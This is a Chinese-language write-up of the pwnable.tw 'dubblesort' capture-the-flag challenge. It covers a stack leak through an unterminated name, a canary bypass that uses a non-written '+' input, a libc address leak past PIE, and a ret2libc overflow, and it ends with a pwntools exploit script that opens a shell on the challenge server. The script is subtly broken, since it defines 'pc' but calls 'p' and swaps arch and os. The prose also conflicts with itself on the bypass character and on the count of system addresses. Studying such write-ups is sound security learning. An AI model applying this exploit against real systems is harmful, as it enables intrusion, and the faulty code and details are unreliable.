 ```yaml
---
title: dubblesort
categories:
- pwnable.tw
---
```

#
pwnable.tw/dubblesort
##
简介

这是写的第一篇writeup。虽然学了将近一个月pwn，但是还是不得要领，之所以要写这个的writeup，是因为这个很典型，中间用到了绕过canary以及尝试的过程，加上工具的使用，有很强的借鉴意义。

程序比较简单，放到IDA里F5，得到C代码，默认命名辨识度低，把一些重要变量重命名成易于记忆的名字，main函数里
![first_entry](./1.jpg)
其中canary的值不能发生变化，首先尝试输入amazing，发现输出的除了名字之后还有一些乱码，这是因为read读取的输入以换行结束，并不包含\x00，而printf输出的结束符为\x00，因此在输出名字之后还会继续向后输出，直到'\0'为止。这里是一个可以泄露栈内容的漏洞
![first_try](./2.jpg)
继续往下测试，发现这是一个对输入数字进行从小到大排序的程序，问题在于它并没有限制输入数字的数量，这就导致用户输入过长时产生栈溢出，在IDA中可以看到程序内部并没有system函数和'/bin/sh'，因此要从动态链接库里找，即构造ret2libc，gdb调试程序,在puts处下断点，输入4个数字，分别为1，2，3，4，在栈上的输入点为[esp+0x5c]，距离ebp的距离为0x7c,因此栈结构设计如下:  
![stack](./4.jpg)  
checksec ./dubblesort可以看到栈开启了各种保护，因为不是直接在栈上布置shellcode所以NX的保护没关系，FULL RELRO表示程序开始的时候会动态加载函数表，不能通过替换got表来执行恶意代码，最重要的是PIE和Canary，IDA里可以看到canary和输入点间的距离是0x60，在gdb中验证之后确实也如此
![checksec](./5.jpg)
![canary_position](./6.jpg)
最后的栈结构如下：  
![stack_with_canary](./7.jpg)

##
漏洞利用

###
绕过canary

漏洞还是蛮容易找到的，但是对于我这个菜鸡来说各种保护实在是太难绕过了，脚本也不熟，只能一点点尝试。首先canary上的值不能变，目前遇到的可以绕过canary的方法就是地址任意写，在这里我们要覆盖连续的栈空间，这条路走不通，只能是想方法不写到这块地址上，继续尝试输入，发现输入数字为f等非数字时直接停止之后的输入，直接输入结果，gdb调试发现此时栈上的内容没有发生变化，这是因为以%d格式读取字符时发生格式错误，输入无法写入到栈上，但是没有清空缓存区的函数，这个字符就一直留在缓冲区，之后读取都会发生错误，最终的结果就是这次输入之后的结果都无法写入到栈上，这样我们似乎可以通过输入字符绕过canary，但是此后的输入也无法写到栈上，因此要尝试新的输入，最后尝试到'-'发现为合法输入，但是不写到栈上，正好满足了我们的需求，因此我们前24个输入填充0，第25位输入'+'绕过保护，再填充比canary值大的数，这是因为之后的排序是从小到大排序，直接对整数指针操作，因此我们要保证canary值位置不变，必须按照递增顺序放置元素，在这里我们使用system函数的地址，因为这个地址大部分时间都大于canary的随机数，一直覆盖到ebp,共7个填充，加上最后覆盖的返回地址共8个system_addr

###
绕过PIE

绕过PIE的题还没见过，之前学习中讲的是要找到不变的部分，只能gdb慢慢找了。name那里之前提了一个漏洞，可以泄露栈上内容，当然之前说的在输入数字时不改变栈内容也可以泄露内容，但是canary必然会被破坏，因此我们最好利用read泄露地址,查看之后可以看到0xf7fb2000这个值似乎不随输入变化，而且vmmap查看发现这的确是动态链接库的地址,减去起始位置的距离发现偏移量为0x1b0000，使用readelf命令发现这个地址对应的got.plt地址，这样我们就得到了一个固定的got地址，最后，由于printf遇到'\x0'会停止输出，而这个地址最后总为'\0'，因此使用换行符覆盖最后一位，得到的leak地址再减去0x0a即可。
![find addr](./9.jpg)
![find_offset](./10.jpg)

##
payload.py

```-python
from pwn import *
context.update(arch='linux',os='i386')
context.log_level = 'DEBUG'
debug = 0
if debug:
    pc = process('./dubblesort')
else:
    pc = remote('chall.pwnable.tw', 10101)

got_off = 0x1b0000
libc = ELF('./libc_32.so.6')

p.recv()
p.sendline('a'*24)
got_addr = u32(p.recv()[30:34])-0xa
libc_addr = got_addr-got_off
system_addr = libc_addr + libc.symbols['system']
bin_sh_addr = libc_addr + libc.search('/bin/sh').next()
p.sendline('35')
p.recv()
for i in range(24):
    p.sendline('0')
    p.recv()
p.sendline('+')
p.recv()
for i in range(9):
    p.sendline(str(system_addr))
    p.recv()
p.sendline(str(bin_sh_addr))
p.recv()
p.interactive()
```
